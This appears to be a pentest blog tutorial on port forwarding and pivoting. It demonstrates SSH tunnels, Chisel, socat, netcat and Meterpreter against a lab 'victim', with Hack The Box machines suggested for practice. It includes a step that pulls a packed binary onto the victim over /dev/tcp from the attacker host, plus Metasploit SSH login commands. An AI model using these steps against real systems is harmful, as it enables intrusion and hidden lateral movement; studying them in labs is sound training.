 ```yaml
---
title: "Port Forwarding"
image: 
  path: /assets/images/tutorials/PortForwarding/headerPF.png
sub_title: "Basic port forwarding techniques"
categories:
  - Tutorials
  - PortForwarding
---
```


In this post we will see different port forwarding tools and techniques.
To see the different examples, we will use the following fictitious scenario.

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310123314.png){: .align-center}

Our attacking Kali machine (192.168.164.133) and our victim Ubuntu machine (192.168.164.130) which is running a python simple HTTP server only accessible locally. 

The different tools that we are going to see are:
 - SSH
- Chisel
- Socat
- Netcat
- Msfconsole / meterpreter

### SHH
We can pivot using ssh in three different ways:
 - SSH Local port forwarding
- SSH Remote port forwarding
- SSH Dynamic port forwarding (SOCKS)


#### SSH Local port forwarding

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133017.png){: .align-center}

```bash
      root@kali:~$ ssh -L 9000:127.0.0.1:8000 ust@192.168.164.130
```

This command will make the remote web server accessible, on our localhost on port 9000.

#### SSH Remote port forwarding

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310132100.png){: .align-center}

```shell
    victim@ubuntu:~$ sudo ssh -R 9090:localhost:8000 kali@192.168.164.133
```

We have to run this command from the victim machine, once we have gained access to it. With this command, we will be able to access from our Kali to the remote application in our localhost, port 9090.

#### SSH    Dynamic port forwarding (SOCKS)

First we need to configure our proxychains file: **/etc/proxychains.conf**

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310132643.png){: .align-center}

We set socks4 on port 9000.

Then we run the following ssh command:

```shell
    root@kali:~$ ssh -D 9000 victim@192.168.164.130
```

After that, we need to configure the proxy in our browser (in this case, using foxyproxy.) 

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133340.png){: .align-center}

We set the Proxy Type as **SOCKS4** and use the configuration we put in the proxychains.conf file.

Finally, we will be able to reach the remote HTTP server from our Kali as is it shown in the image below. 

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133601.png){: .align-center}


### Chisel

How to install and execute Chisel:

Kali machine:
``` shell
root@kali:~/tools$ git clone https://github.com/jpillora/chisel.git
root@kali:~/tools$ cd chisel
root@kali:~/tools/chisel$ go build –ldflags=“-s –w”
root@kali:~/tools/chisel$ upx brute chisel 
root@kali:~/tools/chisel$ nc -lvnp 6666 < chisel
root@kali:~/tools/chisel$ ./chisel server -p 8002 -reverse -v
```

Victim machine:

``` shell
ust@ubuntu:~/tmp$ cat < /dev/tcp/192.168.164.133/6666 > chisel
ust@ubuntu:~/tmp$ chmod 755 chisel
ust@ubuntu:~/tmp$ ./chisel client 192.168.164.133:8002 R:127.0.0.1:8000
```

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310134836.png){: .align-center}

Then we will be able to reach the remote HTTP server in our localhost port 8000.

#### Socat

For port forwarding using SOCAT, we have to run the following command:

```sh
root@kali:~/tools$ socat TCP-LISTEN:localport,fork,reuseaddr TCP:remoteIP:remoteport
root@kali:~/tools$ socat TCP-LISTEN:10000,fork,reuseaddr TCP:192.168.164.130:8000
```

#### Netcat
```sh  
root@kali:~/tools$ mknod pivot p
root@kali:~/tools$ nc -l -p 12000 0<pivot | nc 192.168.164.130 8000 1>pivot
```

#### Msfconsole / meterpreter

Use auxiliary/scanner/ssh/ssh_login module for create a session
```sh
root@kali:~/tools$ msfconsole
msf5 use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.164.130
msf5 auxiliary(scanner/ssh/ssh_login) > set username victim
msf5 auxiliary(scanner/ssh/ssh_login) > set password pass
msf5 auxiliary(scanner/ssh/ssh_login) > exploit 
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -l 
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u ‘id’
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -i ‘id’
```

Once connected, use the meterpreter session opened and do the port forwarding:

```sh
meterpreter > portfwd -h
meterpreter > portfwd add -l 1234 -p 8000 -r 192.168.164.130
meterpreter > portfwd list
```

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310135630.png){: .align-center}

## Practice ![]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\htb.ico){}
If you want to practice the techniques and tools explained in this post, you can make the following hack the box machines:

- Granny
- Grandpa
- Vault
- Reddish
